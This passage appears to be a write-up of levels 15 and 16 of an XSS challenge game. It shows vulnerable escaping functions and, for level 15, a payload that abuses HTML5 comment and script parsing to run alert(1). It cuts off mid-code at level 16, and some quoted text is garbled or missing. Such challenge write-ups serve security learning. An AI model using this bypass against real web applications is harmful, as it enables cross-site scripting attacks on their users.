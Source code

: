 
###Level 15:

```
    	function escape(s) {
    		return s.split('#').map(function(v) {
    			// Only 20% of slashes are end tags; save 1.2% of total
    			// bytes by only escaping those.
    			var json = JSON.stringify(v).replace(/<\//g, '<\\/');
    			return '<script>console.log('+json+')</script>';
    		}).join('');
    	}
```

We can use the same trick we used for level 14. We can start with something simple like:

```
    	payload1#payload2
```

that will render:

```
    	<script>console.log("payload1")</script>
	<script>console.log("payload2")</script>
```


We can take advantage of HTML5 “"!—"script"” trick to change the way the parser treats the code between the two blocks and inject our “alert(1)” payload. Note that this trick only works in HTML5 documents and we will need to inject a closing “—>” since it is not present in the code

The solution is:

```
    	<!--<script>#)/;alert(1)//-->

```
This will render:

Since we transition to “ script data double escaped state ” when the parser finds “<!—"script'”, the JS engine will receive the following valid JS expression:

That can be interpreted as:

```
    	console.log("junk_string") < /junk_regexp/ ; alert(1) // -->
```

Where:

```
    	junk_string: <!—<script>
    	junk_regexp: script><script>console.log(“)
```

Actually you can see in the console that the first console.log writes ‘<!—"script"’

In order to make it even shorter we can replace “//” with unicode \u2028 as suggested by Mario
###Level 16:

```
   	 function escape(text) {
   	 	// *cough* not done
    		var i = 0;
    		window.the_easy_but_expensive_way_out = function() { alert(i++) };
   	 	// "A JSON text can be safely passed into JavaScript's eval() function
    		// (which compiles and executes a string) if all the characters not
    		// enclosed in strings are in the set of characters that form JSON
    		// tokens."
    		if (!(/[^,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]/.test(
   		 text.replace(/"(\\.|[^"\\])*"/g, '')))) {
    			try {
    			var val = eval('(' + text + ')');
```